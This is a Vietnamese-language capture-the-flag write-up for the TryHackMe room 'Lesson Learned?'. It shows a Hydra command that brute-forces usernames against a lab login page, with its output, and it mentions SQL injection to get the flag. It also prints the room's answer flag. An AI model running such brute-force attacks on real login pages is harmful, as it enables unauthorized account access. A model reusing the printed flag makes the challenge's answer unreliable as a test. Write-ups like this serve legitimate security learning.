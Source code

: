 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Lesson Learned?
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - THM-Room 
  - Privilege Escalation
---
```


# __Lesson Learned?__

Room at https://tryhackme.com/room/lessonlearned

---

??? question "List of the questions solved"

    Question: name
    > Ans: THM{aab02c6b76bb752456a54c80c2d6fb1e}

## __Pentest scenario__

Host: 10.10.235.161

Bài này đề bài đã nêu rõ ràng vậy rồi, ta sẽ focus vào trang login.

### __Reconnaissance__

Sau một vài thao tác với trang web, ta có 1 vài nhận xét:

- Nếu sai username và password thì sẽ xuất ra thông báo "Invalid username and password."
- Có thể có lỗ hỏng SQLi

    ??? tip "Hint"
        ![](image-1.png)

Dựa vào nhận xét một, ta có 1 thủ thuật Brute Force username nho nhỏ bằng Hydra như bên dưới

```ps1 title="Hydra Brute force"
└─$ hydra -L $PASS_WORD -p a 10.10.235.161 http-post-form "/index.php:username=^USER^&password=^PASS^:F=Invalid username and password."             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 14:21:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.235.161:80/index.php:username=^USER^&password=^PASS^:F=Invalid username and password.
[80][http-post-form] host: 10.10.235.161   login: martin   password: a
[80][http-post-form] host: 10.10.235.161   login: patrick   password: a
[80][http-post-form] host: 10.10.235.161   login: stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: kelly   password: a
[80][http-post-form] host: 10.10.235.161   login: arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: Martin   password: a
[STATUS] 642.00 tries/min, 642 tries in 00:01h, 8294813 to do in 215:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: karen   password: a
[80][http-post-form] host: 10.10.235.161   login: Patrick   password: a
[STATUS] 680.67 tries/min, 2042 tries in 00:03h, 8293413 to do in 203:05h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: sophia   password: a
[80][http-post-form] host: 10.10.235.161   login: Stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: PATRICK   password: a
[80][http-post-form] host: 10.10.235.161   login: Kelly   password: a
[STATUS] 647.71 tries/min, 4534 tries in 00:07h, 8290921 to do in 213:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Karen   password: a
[80][http-post-form] host: 10.10.235.161   login: veronica   password: a
[80][http-post-form] host: 10.10.235.161   login: Arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: naomi   password: a
[80][http-post-form] host: 10.10.235.161   login: MARTIN   password: a
[STATUS] 652.20 tries/min, 9783 tries in 00:15h, 8285672 to do in 211:45h, 16 active
```

Như hình trên, ta đã tìm được rất nhiều username (còn nhiều hơn thế nữa,...) và thông báo lỗi sẽ là "Invalid password.". Tôi có brute force password 1 user (bất kì) thì thấy việc tìm luôn cả password là điều không khả thi, có thể challenge này chuyên về SQLi khi có username. Wow, và tôi đã thử và có flag như hình bên dưới.

![](image.png)

## __What we learned__

1. Hydra
2. SQLi